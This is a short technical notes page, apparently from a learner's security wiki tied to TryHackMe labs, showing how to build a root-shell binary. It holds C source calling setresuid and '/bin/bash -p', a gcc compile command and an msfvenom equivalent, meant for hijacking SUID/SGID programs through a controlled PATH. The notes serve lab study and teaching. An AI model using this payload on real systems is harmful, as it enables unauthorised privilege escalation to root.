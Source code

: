 # How to Load a Shell with a Simple Executable

It’s actually trivial to write a C program that loads up a shell.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void main() {
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -o /path/to/malicious /path/to/malicious.c
```

Note that this is *almost* identical to the LD_PRELOAD trick; the differences are:

* Use `main()` instead of `_init()` as our entry point.
* Compile without -shared and -nostartfiles.

A simple binary like this is useful for exploiting SUID/SGID applications that call other executables from part of the PATH that we control.

## Metasploit

The msfvenom tool can generate binaries with essentially the same functionality as above.

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf \
         -o shell.elf
```

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Exploiting LD_PRELOAD](exploiting-ld-preload.md)
* [Using Metasploit](metasploit.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> November 2, 2021
